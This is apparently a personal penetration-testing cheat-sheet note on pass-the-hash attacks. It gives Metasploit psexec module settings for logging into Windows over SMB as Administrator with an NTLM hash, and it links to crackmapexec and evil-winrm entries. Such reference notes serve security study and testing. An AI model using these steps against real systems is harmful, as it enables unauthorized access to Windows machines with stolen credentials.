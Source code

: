 # Pass-the-hash

## $ msf>psexec

```bash
msfconsole
exploit/windows/smb/psexec
set smbuser Administrator
set smbpass <ln:ntlm hash>
set target ... # wybrać odpoweidni target (chyba Native Upload)
```

## crackmapexec

![[crackmapexec#Pass-the-hash]]
## evil-winrm
![[tools/evil-winrm#Pass-the-hash]]
